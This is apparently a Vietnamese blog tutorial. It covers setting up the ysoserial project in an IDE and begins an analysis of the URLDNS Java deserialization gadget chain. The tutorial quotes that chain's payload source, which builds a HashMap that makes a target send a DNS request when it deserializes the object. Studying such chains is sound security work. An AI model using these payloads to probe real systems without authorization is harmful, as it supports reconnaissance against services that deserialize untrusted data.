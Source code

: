 Bạn có thể setup **JDK** của project như sau:

* Bước 1: Ấn chuột phải vào thư mục chứa project
{% asset_img 2.png %}

* Bước 2: Sau đó bảng sau hiện ra, click chọn **Open Module Settings**
    
{% asset_img 3.png %}


* Bước 3: Lúc đó bảng **Project Structure** sẽ hiện ra, vào phần **Project Settings &gt; Project** để chọn JDK.
    
{% asset_img 4.png %}


Quay trở lại project, ta thấy file **pom.xml**. Vậy nên đây là 1 project maven.
{% asset_img 5.png %}


Trước tiên ấn vào **ô số 1**, lúc đó cái bảng ở góc phải sẽ hiện ra. Ấn tiếp vào **ô số 2** để reload project. Sau đó, ấn tiếp vào **ô số 3** và tìm đến dòng **Download Sources and Document** để tải toàn bộ **Dependencies** còn thiếu về.

# Tổng quan về chain URLDNS

* Chain **URLDNS** chỉ có thể kích hoạt DNS request chứ không thể thực thi code.
    
* Để chạy chain **URLDNS** thì không cần thêm class của third-party mà chỉ cần một số class và method **có sẵn (built-in)** trong JDK. Do vậy nó rất thích hợp để xác định rằng target có cho phép **Deserialize** hay không.
    
* Chain **URLDNS** là có thể nói là chain đơn giản trong ysoserial.
    

# Phân tích chain URLDNS

Mở file **ysoserial/src/main/java/ysoserial/payloads/URLDNS.java** để tiến hành phân tích.

{% asset_img 6.png %}


Cùng nhìn vào phần quan trọng trong source code của **URLDNS chain**.

```java
public class URLDNS implements ObjectPayload<Object> {
    public Object getObject(final String url) throws Exception {
        URLStreamHandler handler = new ysoserial.payloads.URLDNS.SilentURLStreamHandler();
        HashMap ht = new HashMap();
        URL u = new URL(null, url, handler);
        ht.put(u, url);
        Reflections.setFieldValue(u, "hashCode", -1);
        return ht;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(ysoserial.payloads.URLDNS.class, args);
    }
    static class SilentURLStreamHandler extends URLStreamHandler {
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```
